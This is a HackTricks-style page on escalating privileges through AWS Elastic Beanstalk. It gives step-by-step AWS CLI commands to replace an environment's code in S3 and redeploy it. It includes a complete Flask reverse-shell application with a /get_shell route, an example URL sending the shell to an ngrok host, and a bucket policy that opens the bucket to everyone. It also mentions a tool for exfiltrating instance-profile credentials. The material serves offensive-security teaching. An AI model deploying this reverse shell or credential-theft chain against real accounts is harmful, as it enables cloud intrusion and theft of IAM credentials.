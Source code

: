 # AWS - Elastic Beanstalk Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Elastic Beanstalk

More **info about Elastic Beanstalk** in:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
In order to perform sensitive actions in Beanstalk you will need to have a **lot of sensitive permissions in a lot of different services**. You can check for example the permissions given to **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`**
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`, S3 write permissions & many others

With **write permissions over the S3 bucket** containing the **code** of the environment and permissions to **rebuild** the application (it's needed `elasticbeanstalk:RebuildEnvironment` and a few more related to `S3` , `EC2` and `Cloudformation`), you can **modify** the **code**, **rebuild** the app and the next time you access the app it will **execute your new code**, allowing the attacker to compromise the application and the IAM role credentials of it.

{% code overflow="wrap" %}
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, and more...

The mentioned plus several **`S3`**, **`EC2`, `cloudformation`** ,**`autoscaling`** and **`elasticloadbalancing`** permissions are the necessary to create a raw Elastic Beanstalk scenario from scratch.

* Create an AWS Elastic Beanstalk application:

```bash
aws elasticbeanstalk create-application --application-name MyApp
```

* Create an AWS Elastic Beanstalk environment ([**supported platforms**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}

If an environment is already created and you **don't want to create a new one**, you could just **update** the existent one.

* Package your application code and dependencies into a ZIP file:

```python
zip -r MyApp.zip .
```

* Upload the ZIP file to an S3 bucket:

```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```

* Create an AWS Elastic Beanstalk application version:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* Deploy the application version to your AWS Elastic Beanstalk environment:

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

First of all you need to create a **legit Beanstalk environment** with the **code** you would like to run in the **victim** following the **previous steps**. Potentially a simple **zip** containing these **2 files**:

{% tabs %}
{% tab title="application.py" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
        return jsonify('404')

@application.route("/")
def index():
        return jsonify('Welcome!')


@application.route("/get_shell")
def search():
        host=request.args.get('host')
        port=request.args.get('port')
        if host and port:
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect((host,int(port)))
            os.dup2(s.fileno(),0)
            os.dup2(s.fileno(),1)
            os.dup2(s.fileno(),2)
            p=subprocess.call(["/bin/sh","-i"])
        return jsonify('done')

if __name__=="__main__":
    application.run()
```
{% endtab %}

{% tab title="requirements.txt" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

Once you have **your own Beanstalk env running** your rev shell, it's time to **migrate** it to the **victims** env. To so so you need to **update the Bucket Policy** of your beanstalk S3 bucket so the **victim can access it** (Note that this will **open** the Bucket to **EVERYONE**):

```json
{
    "Version": "2008-10-17",
    "Statement": [
        {
            "Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": [
                "s3:ListBucket",
                "s3:ListBucketVersions",
                "s3:GetObject",
                "s3:GetObjectVersion",
                "s3:*"
            ],
            "Resource": [
                "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
                "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
            ]
        },
        {
            "Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
            "Effect": "Deny",
            "Principal": {
                "AWS": "*"
            },
            "Action": "s3:DeleteBucket",
            "Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
        }
    ]
}
```

{% code overflow="wrap" %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528

Alternatively, [MaliciousBeanstalk](https://github.com/fr4nk3nst1ner/MaliciousBeanstalk) can be used to deploy a Beanstalk application that takes advantage of overly permissive Instance Profiles. Deploying this application will execute a binary (e.g., [Mythic](https://github.com/its-a-feature/Mythic) payload) and/or exfiltrate the instance profile security credentials (use with caution, GuardDuty alerts when instance profile credentials are used outside the ec2 instance). 

The developer has intentions to establish a reverse shell using Netcat or Socat with next steps to keep exploitation contained to the ec2 instance to avoid detections. 
```
{% endcode %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
